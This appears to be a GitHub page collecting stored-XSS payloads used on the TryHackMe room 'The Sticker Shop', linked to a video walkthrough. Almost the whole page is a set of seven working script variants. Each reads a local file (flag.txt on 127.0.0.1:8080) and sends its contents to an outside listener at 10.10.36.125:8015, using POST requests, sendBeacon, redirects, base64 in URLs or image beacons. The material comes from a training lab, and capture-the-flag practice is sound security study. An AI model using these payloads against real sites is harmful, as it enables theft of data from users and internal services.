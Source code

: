 Payload used on TryHackMe room The Sticker Shop https://tryhackme.com/r/room/thestickershop
video walk through: https://youtu.be/lB68TvzPEHI

<script><br />
fetch('http://127.0.0.1:8080/flag.txt')<br />
  .then(response => response.text())<br />
  .then(data => {<br />
    fetch('http://10.10.36.125:8015', { <br />
      method: 'POST',<br />
      body: data<br />
    });<br />
  });<br />
</script><br />

==<br />
<script><br />
var xhr = new XMLHttpRequest();<br />
xhr.open('GET', 'http://127.0.0.1:8080/flag.txt', true);<br />
xhr.onload = function() {<br />
    fetch('http://10.10.36.125:8015', {<br />
        method: 'POST',<br />
        body: xhr.responseText<br />
    });<br />
};<br />
xhr.send();<br />
</script><br />
<br />
==<br />
<br />
<script><br />
fetch('http://127.0.0.1:8080/flag.txt')<br />
  .then(response => response.text())<br />
  .then(data => {<br />
    navigator.sendBeacon('http://10.10.36.125:8015', data);<br />
  });<br />
</script><br />
<br />
===<br />
<br />
<script><br />
(async () => {<br />
  try {<br />
    const response = await fetch('http://127.0.0.1:8080/flag.txt');<br />
    const data = await response.text();<br />
    await fetch('http://10.10.36.125:8015', {<br />
      method: 'POST',<br />
      headers: { 'Content-Type': 'text/plain' },<br />
      body: data<br />
    });<br />
  } catch (error) {<br />
    // Optional error handling<br />
  }<br />
})();<br />
</script><br />
<br />
== get<br />
<script><br />
fetch('http://127.0.0.1:8080/flag.txt')<br />
  .then(response => response.text())<br />
  .then(data => {<br />
    window.location = `http://10.10.36.125:8015?flag=${encodeURIComponent(data)}`;<br />
  });<br />
</script><br />
<br />
<br />
base64:<br />
<br />
<script><br />
fetch('http://127.0.0.1:8080/flag.txt')<br />
  .then(response => response.text())<br />
  .then(data => {<br />
    window.open(`http://10.10.36.125:8015?flag=${btoa(data)}`, '_blank');<br />
  });<br />
</script><br />
<br />
===<br />
<script><br />
fetch('http://127.0.0.1:8080/flag.txt')<br />
  .then(response => response.text())<br />
  .then(data => {<br />
    var img = new Image();<br />
    img.src = `http://10.10.36.125:8015/?flag=${encodeURIComponent(data)}`;<br />
  });<br />
</script><br />
<br />
===<br />
